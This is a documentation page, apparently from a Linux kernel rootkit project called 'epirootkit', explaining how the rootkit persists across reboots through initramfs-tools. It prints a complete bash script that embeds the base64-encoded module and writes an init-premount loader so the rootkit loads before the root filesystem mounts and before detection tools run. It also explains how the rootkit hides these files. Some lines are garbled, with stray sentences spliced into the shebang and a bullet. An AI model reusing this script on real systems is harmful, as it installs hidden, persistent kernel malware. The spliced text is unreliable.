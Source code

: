 \page persist Persistence

\tableofcontents

To ensure the rootkit is automatically loaded at every system boot, we implemented a persistence mechanism based on integrating the module into the initramfs. This solution consists of packaging the rootkit binary file (.ko) within the *initramfs*, then inserting a small shell script that, during the kernel boot phase, performs the module insertion even before mounting the usual file systems. Once loaded, the module installs its *ftrace hooks* and hides its own components. Below, we describe in detail how this mechanism works: from the persistence script launched by the Makefile to the execution of module insertion at boot and its concealment.

## 1. 🛠️ Overview

The core of persistence is a single shell script, initrd.sh, located in the `scripts/romance` directory of the project. When a user executes the `sudo make` command and after compilation, the `Makefile` first encodes the rootkit .ko file in base64 to embed it in the `/lib/epirootkit/` directory on the root file system. It then calls the script to create two other specific scripts in the initramfs structure:

- A hook placed in `/etc/initramfs-tools/hooks/epirootkit` to copy the encoded file when generating the initramfs.Hook configurations are saved and automatically restored when the module is reinserted.

- A script in `/etc/initramfs-tools/scripts/init-premount/epirootkit-load` that will be executed just before mounting the root file system, to insert the module.

## Automatic Loading

```bash

#!/usr/bin/env bashThe rootkit can be configured to load automatically at system boot.

set -e

BLOB_SRC="/lib/epirootkit/cH0c01AtcG9ydC1rZXlzLmNv"

HOOK_DIR="/etc/initramfs-tools/hooks"
HOOK_PATH="$HOOK_DIR/epirootkit"
mkdir -p "$HOOK_DIR"
cat > "$HOOK_PATH" << 'EOF'
#!/bin/sh
set -e

PREREQ=""
prereqs() { echo "$PREREQ"; }
case "$1" in
  prereqs) prereqs && exit 0 ;;
esac

mkdir -p "${DESTDIR}/sbin"
ln -s /bin/kmod "${DESTDIR}/sbin/insmod"

mkdir -p "${DESTDIR}/lib/epirootkit"
install -m644 /lib/epirootkit/cH0c01AtcG9ydC1rZXlzLmNv \
  "${DESTDIR}/lib/epirootkit/cH0c01AtcG9ydC1rZXlzLmNv"

base64 -d "${DESTDIR}/lib/epirootkit/cH0c01AtcG9ydC1rZXlzLmNv" \
  > "${DESTDIR}/lib/epirootkit/epirootkit.ko"
rm -f "${DESTDIR}/lib/epirootkit/cH0c01AtcG9ydC1rZXlzLmNv"
EOF

chmod +x "$HOOK_PATH"

LOAD_DIR="/etc/initramfs-tools/scripts/init-premount"
LOAD_PATH="$LOAD_DIR/epirootkit-load"
mkdir -p "$LOAD_DIR"
cat > "$LOAD_PATH" << 'EOF'
#!/bin/sh
/sbin/insmod /lib/epirootkit/epirootkit.ko 2> /tmp/insmod.err || true
EOF

chmod +x "$LOAD_PATH"

update-initramfs -u -k "$(uname -r)"
```

## 2. 🚀 Boot Process

### 2.1 Loading

The Linux kernel loads into memory the previously generated initramfs. The latter contains the epirootkit.ko module decrypted from the base64 file as well as the `hooks/epirootkit` and `scripts/init-premount/epirootkit-load` scripts. The `insmod` binary corresponding to a symbolic link to the `kmod` binary, but not being present by default in the initramfs, we manually create the symbolic link to make the command available.
```bash
ln -s /bin/kmod "${DESTDIR}/sbin/insmod"
```

### 2.2 Execution

Before mounting the root, the initramfs executes all scripts present in scripts/init-premount/. Our script simply calls `/sbin/insmod /lib/epirootkit/epirootkit.ko`. After loading the module, the initramfs completes its task, then exits its *rootfs initramfs* phase. The kernel then mounts the system root from the disk. At this stage, *epirootkit.ko* is already active, and the *ftrace* hooks will intercept all subsequent system calls, and can automatically hide the persistence scripts to prevent their detection, as well as the base64 module. Base64 mainly allows transforming the compiled module into plain text, for very minimal obfuscation.

## 3. 🔥 Advantages

Initially, we considered using the classic method to ensure reliable kernel module persistence: inserting it directly into the modules directory, accompanied by a `.conf` file in `/etc/modules-load.d/`. However, we wanted to explore another approach... What we particularly appreciated with this alternative method is that the module is inserted before mounting the root partition, i.e., at a time when most classic detection or protection mechanisms are not yet active. This allows hiding all components from boot before other modules.

> We also discovered many interesting techniques for future projects, notably on the excellent website [Elastic Security Labs](https://www.elastic.co/security-labs/the-grand-finale-on-linux-persistence).

Moreover, each time `update-initramfs` is executed, the initramfs is automatically regenerated and includes again our hook as well as our encoded module. This way, even in case of kernel update (via apt, aptitude, etc.), persistence is maintained: as long as the scripts in `/etc/initramfs-tools/` are not deleted, the module is reinjected at each boot, without manual reinstallation being necessary. However, this method only works if the distribution actually uses initramfs-tools. On other distributions, the logic would probably need to be adapted to the initramfs generation tool used...

<img 
  src="logo_no_text.png" 
  style="
    display: block;
    margin: 100px auto;
    width: 30%;
    overflow: hidden;
  "
/>
